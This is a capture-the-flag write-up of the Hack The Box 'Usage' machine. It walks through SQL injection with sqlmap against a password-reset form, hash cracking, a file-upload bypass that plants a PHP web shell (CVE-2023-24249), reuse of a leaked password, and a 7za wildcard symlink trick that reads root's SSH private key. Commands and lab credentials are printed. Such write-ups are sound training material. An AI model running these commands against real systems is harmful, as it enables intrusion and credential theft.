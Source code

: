 | Name            | Usage                                                                                                                |
| --------------- | -------------------------------------------------------------------------------------------------------------------- |
| Platform        | HTB                                                                                                                  |
| Difficulty      | Easy                                                                                                                 |
| OS              | Linux                                                                                                                |
| Used techniques | sudomain enumeration,  SQLi, crack hashes, File Upload attack, credentials finding, reverse, wildcards spare tricks. |
| Technologies    | Laravel, Laravel-admin                                                                                               |
| Tools           | gobuster,  BurpSuite, sqlmap, nc, strings                                                                            |
| CVEs            | cve-2023-24249                                                                                                       |

## Enumeration

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 16:39 CEST
Nmap scan report for 10.10.11.18
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.80 seconds
```

Important information to be extracted: nginx server, usage.htb as domain.

```bash
http://usage.htb [200 OK] Bootstrap[4.1.3], Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[laravel_session], IP[10.10.11.18], Laravel, PasswordField[password], Title[Daily Blogs], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```



Inspecting the web site, we can only see that we can register as users and log in. Once logged in, there is no vector that can serve us as an attack vector. It should be some directory or subdomain not enumerated. 

### Directories

Apart from spidering the website, there is no extra directories found:


``` bash
gobuster dir -u usage.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --exclude-length 206
```
/login
/registration
/reset-password


### subdomains
```bash
ffuf -u http://usage.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host: FUZZ.usage.htb' -fs 178
```

==admin.usage.htb==
+/admin
+/uploads


We find also one admin panel endpoint. The use of default credentials does not work. The first idea is that we have to use some kind of credential or token taken from the home page or some injection that we have not yet tested.


## Foothold

Possible SQLi on /reset-password. It gave us an 500 code error after injecting single quote.

![Step](img/Pasted image 20240704174137.png)


We found one table with users, it may contain some valid credentials that may be used in the admin panel.

![Step](img/Pasted image 20240705063748.png)



`hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt`
`hashcat -a 0 -m 3200 hashes --show`

This ended up going down a rabbit hole. No credentials have been of any use to us. The credentials that will give us access can be found in table *admin_users*:

The web is implementing some security measures against excessive requests, so let's calibrate the sqlmap command well.

```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch --dbs --threads 10

sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog ---tables --threads 10

sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users --columns --threads 10

sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C name,username,password --threads 10
```


```bash 
Administrator | admin    | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
``` 

Valid credentials found and used on admin panel.

![Step](img/Pasted image 20240705170047.png)

List of the version is listed on the dashboard, so it is easy to check that there is a vulnerable version: *encore/laravel-admin 1.8.17*.

This version is vulnerable to cve-2023-24249, which consists in a File Upload vulnerability. We can bypass the image upload easily, just changing the extension. The way to go is, first we have to upload *shell.jpg* (shell.php with extension changed). After success, upload again and catch the request, this time we have to add .*php* (shell.jpg.php). Once we have prepared our listener, try to download the image.

![Step](img/Pasted image 20240705173125.png)

![Step](img/Pasted image 20240705173033.png)

## Lateral Movement

After foodhold, we see that there is just one more user called **xander**. On the same folder, we find one hidden file (*/.monitrc*) with credentials with can spray with. It worked to change user to xander.


![Step](img/Pasted image 20240705174544.png)

```bash
allow admin:3nc0d3d_pa$$w0rd
```

```xander:3nc0d3d_pa$$w0rd```


## Privilege Escalation

As xander we can use sudo with the following command:

```bash
sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```
![Step](img/Pasted image 20240705222931.png)

Once we play with it a little bit, it looks like it creates some backup's files. We can inspect if there are hidden credentials or something exploitable.

```strings /usr/bin/usage_management```


![Step](img/Pasted image 
20240705223124.png)

We see one line with a \*, that may lead to a wildcard hack. If we do some research, we find that it is in fact a **7za wildcard spare** . It gives us local file inclusion. One way to get root is to find the corresponding ssh key:

```  bash
cd /var/www/html  
touch @id_rsa  
ln -s /root/.ssh/id_rsa id_rsa  
sudo /usr/bin/usage_management
```

We are root it.

#### Developed map
![Step](img/UsageTree.png)


#### Sources

[[https://flyd.uk/post/cve-2023-24249/]]
[[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks]]
